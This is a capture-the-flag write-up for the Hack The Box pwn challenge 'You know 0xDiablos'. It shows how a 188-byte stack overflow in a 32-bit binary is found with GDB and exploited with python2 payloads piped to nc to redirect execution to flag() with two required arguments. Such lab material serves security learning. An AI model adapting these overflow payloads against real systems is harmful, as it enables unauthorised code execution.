 # You know 0xDiablos ~ HTB ~ Pwn Challenge
## Solver: Eyal Asulin
I started with basic checks on the ELF file:
- There are not any security techniques enabled. (Cannary, NX, ASLR)
- i386 | 32 bit -> little indian
- function vuln() : 0x08049272
- function flag() : 0x080491e2

By msf-pattern tools and GDB, I found that the return address stored 188 offset bytes on the stack. 

|   STACK FRAME  | |
| ------------ | ------------ |
|  return address | 4 bytes [target]  |
|  saved ebp |  4 bytes |
|  . |  184 bytes |
|  . |   |
|  . |   |
|  . |   |
| start of buffer |  $esp |

`python2 -c "print '-'*188 + '\xe2\x91\x04\x08'" | (./vuln) (nc [ip] [port])`

By overwrite return address locally we get "Hurry up and try in on server side.", but remotely nothing happens.

So I decided to go through flag function code, and discovered they search for two arguments:
1. 0x08049246 <+100>:   cmp    DWORD PTR [ebp+0x8],0xdeadbeef
2. 0x0804924f <+109>:   cmp    DWORD PTR [ebp+0xc],0xc0ded00d

|   STACK FRAME  | |
| ------------ | ------------ |
| 0xc0ded00d |[argument 2]|
| 0xdeadbeef |[argument 1]|
| padding | 4 bytes |
|  return address | 4 bytes [target]  |
|  saved ebp |  4 bytes |
|  . |  184 bytes |
|  . |   |
|  . |   |
|  . |   |
| start of buffer |  $esp |

`python2 -c "print '-'*188 + '\xe2\x91\x04\x08' + 'PADD' + '\xef\xbe\xad\xde' + '\x0d\xd0\xde\xc0'" | (./vuln) (nc [ip] [port])`


*Written by Eyal Asulin©*
